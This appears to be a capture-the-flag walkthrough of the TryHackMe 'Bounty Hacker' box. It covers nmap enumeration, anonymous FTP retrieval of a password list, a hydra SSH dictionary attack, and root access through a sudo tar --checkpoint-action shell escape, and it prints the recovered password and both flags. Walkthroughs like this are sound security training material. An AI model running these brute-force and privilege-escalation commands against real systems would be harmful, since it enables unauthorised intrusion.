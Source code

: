 ### IP
`10.10.207.236`

# Enumeration

### nmap
`nmap -sC -sV 10.10.207.236 -o BountyHacker.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 23:53 EST
Nmap scan report for 10.10.207.236
Host is up (0.17s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```
* Easy stuff first... Let's take a look at the website at port 80
	* Looks like its just a text page. I'll run nikto on it just in case.
* What's more interesting is ftp, because anonymous login is allows
	* Let's try that:

# Exploitation

### ftp login
`ftp 10.10.207.236 21`
* Type in `anonymous` for the username and press enter for the password
* Let's see whats on this thing... `ls`
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
226 Directory send OK.
```
* We can download those by typing `get locks.txt` and `get task.txt`


* `locks.txt` :
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
* Now what could we do with this? 
	* Perhaps its a list for something relating to the ssh client?


* `task.txt` :
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
* Okay... It looks like `lin` wrote the task


### ssh
* Now, we need to figure out how to login to this
* We can reasonably guess that the ssh username is `lin`
	* Maybe locks.txt is a possible list of passwords?

* Let's use hydra to run a dictionary attack:
* `hydra -l "lin" -P locks.txt ssh://10.10.207.236 -t 4`
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 00:07:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.207.236:22/
[22][ssh] host: 10.10.207.236   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 00:08:07
```
* Success! Looks like the password is `RedDr4gonSynd1cat3`

* Let's log in now: `ssh lin@10.10.207.236 -p 22`
	* Input the password when asked: `RedDr4gonSynd1cat3`

* When we `ls` we see a `users.txt` file.
* Catting it gives us `THM{CR1M3_SyNd1C4T3}`

* Now we need to get access to root
* I tried `sudo cd /root/` with the same password as lin, but with no success

### privelege escalation

* Let's do some quick recon on the system we're on:
* `cat /etc/os-release`
```
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

* `cat /proc/version`
```
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-052) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020
```

* Let's look online to see if xenial 16.04 has any privesc vulns
* `searchsploit openssh` returns some results
* One interesting one is `linux/local/40962.txt`
	* Let's view the file...

```
...
sing "ssh -L", an attacker who is permitted to log in as a
normal user over SSH can effectively connect to non-abstract unix domain sockets
with root privileges
...
Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40962.zip

```

* Very interesting... Let's download the exploit and try to run it

* Imma be honest.. loads of stuff happened here with no success
* A typical Linux privilege Escalation method is based on checking one of the following: (Quote from [this](https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/dev0ops.md) writeup)
```
Exploiting services running as root
Exploiting SUID executables
Exploiting SUDO rights/user
Exploiting badly configured cron jobs
Exploiting users with "." in their path
Kernel Exploits
```
* I eventually had some success with exploting sudo rights:
* `sudo -l` with `lin`'s password shows which commands each of the users can execute with sudo
	* turns out lin can execute tar as sudo... we can exploit that
* I looked up `linux tar privesc` and found [this](https://gtfobins.github.io/gtfobins/tar/)
* It says the following command lets us "spawn an interactive system shell"
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
* running this as sudo and typing in `lin`'s password gives us a root shell
* `ls /root/` shows us a file called `root.txt`
* `cat /root/root.txt` gives us the root flag: `THM{80UN7Y_h4cK3r}`

